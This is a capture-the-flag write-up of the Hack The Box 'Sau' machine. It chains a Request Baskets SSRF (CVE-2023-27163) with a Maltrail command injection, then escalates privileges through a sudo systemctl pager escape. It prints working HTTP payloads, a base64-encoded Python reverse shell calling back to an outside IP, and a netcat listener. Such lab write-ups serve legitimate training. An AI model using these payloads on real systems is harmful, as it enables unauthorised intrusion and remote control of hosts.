


# Hack The Box - Sau



Sau was a very easy machine that chained together multiple publicly known vulnerabilities to reach code execution. The privilege escalation was also straightforward and relied on one of the simplest sudo misconfiguration paths possible, which makes this box a good beginner-friendly target.

## Reconnaissance

I started with a full port scan to identify open services.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.224
```

The scan showed SSH and a web service on port 55555:

```text
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
55555/tcp open     unknown
80/tcp    filtered http
8338/tcp  filtered unknown
```

The interesting part was that ports 80 and 8338 were filtered, which suggested they might still be reachable from localhost through some kind of proxying or SSRF behavior.

## Initial Access

### Request Basket

Visiting port 55555 showed a service called **Request Basket**. The front page exposed version `1.2.1`, which is vulnerable to [CVE-2023-27163] https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3, an SSRF issue that can be abused to proxy requests to internal services.



To test that, I created a basket that forwarded traffic to localhost on port 8338:

```http
POST /api/baskets/deadbeef HTTP/1.1
Host: 10.10.11.224:55555

{"forward_url": "http://127.0.0.1:8338/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

That succeeded and returned a token for the basket. Browsing to the basket path exposed a service called **Maltrail** running version `v0.53`.

### Maltrail RCE

That version is vulnerable to unauthenticated command injection. The bug allows arbitrary shell commands by injecting a semicolon before the command content.

I prepared a Python reverse shell and base64-encoded it so it could be safely passed in the request:

```bash
echo -n "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.67\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'" | base64
```

Then I built the execution payload like this:

```bash
echo <base64> | base64 --decode | bash
```

I started a listener:

```bash
nc -lvp 443
```

Next, I created another basket pointing to the internal Maltrail login page:

```http
POST /api/baskets/deabeef1 HTTP/1.1
Host: 10.10.11.224:55555

{"forward_url": "http://127.0.0.1:8338/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

Finally, I sent the malicious login request through the basket:

```http
POST /deadbeef1 HTTP/1.1
Host: 10.10.11.224:55555

username=;`echo <base64> | base64 -d |sh`
```

That triggered the reverse shell successfully.

## Privilege Escalation

After landing on the box, I checked sudo permissions.

```bash
sudo -l
```

The user was allowed to run:

```text
/usr/bin/systemctl status trail.service
```

`systemctl status` is a classic GTFOBins path because it can drop into a pager, and from there `!sh` can spawn a shell.

So I ran:

```bash
sudo /usr/bin/systemctl status trail.service
```

Then used the pager escape:

```text
!sh
```

That gave me root access.

## Attack Path

- **Scan the host** — identify SSH and the request basket service.
- **Probe SSRF** — use CVE-2023-27163 to reach localhost services.
- **Reach Maltrail** — proxy to the internal service on port 8338.
- **Exploit command injection** — abuse the login parameter in Maltrail.
- **Get a shell** — catch the reverse connection as the low-privilege user.
- **Check sudo rights** — discover `systemctl status trail.service`.
- **Escalate via pager** — use `!sh` from the status output.
- **Become root** — complete the box.
